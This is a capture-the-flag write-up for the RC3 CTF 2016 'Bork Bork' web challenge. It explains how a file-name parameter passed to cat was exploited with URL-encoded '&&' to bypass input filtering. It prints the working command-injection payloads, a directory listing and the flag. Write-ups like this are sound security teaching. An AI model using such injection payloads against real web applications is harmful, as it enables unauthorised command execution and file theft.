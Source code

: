 ```yaml
---
layout: page
title: "RC3 CTF 2016 Writeup: Bork Bork"
---
```


> 300 points
> 
> We all love doggos and puppers. Have some more of one of our favorite puppers, Gabe. Bork.
> 
> https://ctf.rc3.club:3100/
> 
> author:orkulus

This challenge was offline for quite a long time, but eventually they fixed it well enough so that it could be analyzed.

The drop down list on the front page shows a list of video clips of a dog barking to various tunes. Closer examination showed that a ```bork``` parameter contains a name of a text file.

When we send a POST request with an empty ```bork``` parameter we get the following error in the response:

```
<iframe width="854" height="480" src="cat: borks/: Is a directory?autoplay=1&loop=1" frameborder="0"></iframe>
```

This means that they are essentially ```cat```'ting the file that is sent in as a parameter. Maybe we can use OS command injection here.

Specifying ```..```, ```/```, ```;```, ```$()``` and others as parameter value caused an error, there must be logic in the application that sanitizes the input. However URL-encoding ```&&``` worked, parameter value ```* %26%26 ls -la``` got us the following list:

```
-rw-r--r-- 1 root root   77 Nov 20 06:24 auto_bork.sh
-rw-r--r-- 2 root root  153 Nov 19 17:22 bork.ini
-rw-r--r-- 1 root root 1450 Nov 20 06:32 bork.py
-rw-r--r-- 2 root root 1347 Nov 19 17:22 bork.pyc
-rw-r----- 2 root root    0 Nov 19 17:22 bork.sock
-rw-r--r-- 2 root root   18 Nov 19 17:22 bork.txt
drwxr-xr-x 2 root root 4096 Nov 19 18:03 borks
drwxr-xr-x 2 root root 4096 Nov 19 18:03 static
drwxr-xr-x 2 root root 4096 Nov 19 18:03 templates
-rw-r--r-- 2 root root   86 Nov 19 17:22 wsgi.py
```

We examined all of these files and eventually got the flag ```RC3-2016-L057d0g3``` by specifying parameter value ```* %26%26 cat bork.txt```. 
